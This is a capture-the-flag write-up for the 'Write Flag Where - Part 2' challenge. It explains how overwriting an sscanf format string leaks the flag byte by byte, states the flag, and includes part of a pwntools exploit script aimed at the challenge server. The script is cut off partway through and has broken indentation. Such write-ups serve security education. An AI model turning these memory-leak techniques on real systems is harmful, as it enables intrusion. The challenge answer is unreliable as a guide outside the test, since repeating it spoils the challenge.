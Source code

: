 ### Write Flag Where - Part 2

Part 2 proves to be trickier. In ghidra, the exit call stopped the decompiler from disassembling the code further, therefore missing a dprintf function call after the `exit(0)` call. Instead, I tried to leak the flag using the sscanf function with the string `0x%llx %u`. 
The sscanf function call will attempt to match the input format string from the input string. In the original challenge, it's trying to match the starting 0x before reading the hex numbers as input. For example, if we overwrite the format string to `Cx%llx %u` and send the input `Cx0 0`, the program will continue normally, but input `Dx0 0` will exit immediately after. Therefore, we can overwrite that string, then attempt to read different strings, leaking the flag byte by byte. See `solve2.py` for implementation details.

`CTF{impr355iv3_6ut_can_y0u_s01v3_cha113ng3_3?}`

{% capture wfw_solve2_py %}

```python
#!/usr/bin/python3
from pwn import *
elf = ELF("./chal_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.35.so")

context.binary = elf
context.terminal = ["tmux", "splitw", "-h"]

def connect():
        nc_str = "nc wfw2.2023.ctfcompetition.com 1337"
        _, host, port = nc_str.split(" ")
        p = remote(host, int(port))

    return p

def attempt(cur_flag, ch):
    p = connect()
    p.recvuntil(b"fluff\n")
    elf.address = int(p.recvline().split(b'-')[0], 16)

    for i in range(6):
        p.recvline()

    libc.address = int(p.recvline().split(b'-')[0], 16)

    for i in range(11):
        p.recvline()

    stack_base = int(p.recvline().split(b'-')[0], 16)

    for i in range(5):
        p.recvline()

#    print(hex(elf.address), hex(libc.address), hex(stack_base))
    count = len(cur_flag)+1
    target_address = elf.address+0x20bc-(count-1)
    overwrite_str = hex(target_address)
    p.sendline(f"{overwrite_str} {count}")

    overwrite_str = hex(target_address)
    p.sendline(f"{ch}{overwrite_str[1:]} {count}")

    overwrite_str = hex(target_address)
    p.sendline(f"-{overwrite_str[1:]} {count}")

    try:
        p.recv(1, timeout=1)
```